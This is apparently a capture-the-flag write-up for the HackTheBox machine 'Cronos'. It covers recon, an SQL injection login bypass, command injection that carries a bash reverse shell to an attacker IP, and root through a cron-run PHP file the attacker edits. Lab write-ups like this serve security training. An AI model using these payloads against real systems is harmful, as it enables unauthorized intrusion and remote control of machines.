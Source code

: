 # Cronos

## Machine Info

![Cronos](./Cronos.assets/Cronos.png)

## Recon

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (96%), Linux 3.13 (96%), Linux 3.16 (96%), Linux 3.2 - 4.9 (96%), Linux 3.8 - 3.11 (96%), Linux 4.8 (96%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- 80 http, 53 domain service
- Path -> nothing special
- Subdomain -> `admin.cronos.htb`

![image-20231213034211364](./Cronos.assets/image-20231213034211364.png)

## Foothold

- login page

![image-20231213034238140](./Cronos.assets/image-20231213034238140.png)

- SQLi

```
admin' or 1=1 -- -
1
```

- command injection

![image-20231213034311290](./Cronos.assets/image-20231213034311290.png)

- get a reverse shell, `10.10.14.15;bash -c "bash -i >& /dev/tcp/10.10.14.15/1234 0>&1"`

![image-20231213034332689](./Cronos.assets/image-20231213034332689.png)

## Privilege Escalation

- config cred -> mysql -u homestead -p [x]

![image-20231213034356927](./Cronos.assets/image-20231213034356927.png)

- `cat /etc/crontab`

![image-20231213034431900](./Cronos.assets/image-20231213034431900.png)

- artisan is editable, inject php reverse shell script

![image-20231213034530060](./Cronos.assets/image-20231213034530060.png)

![image-20231213034534148](./Cronos.assets/image-20231213034534148.png)

## Exploit Chain

subdomain scan -> sqli -> command injection -> get a user shell -> scheduled task -> php reverse shell -> root shell

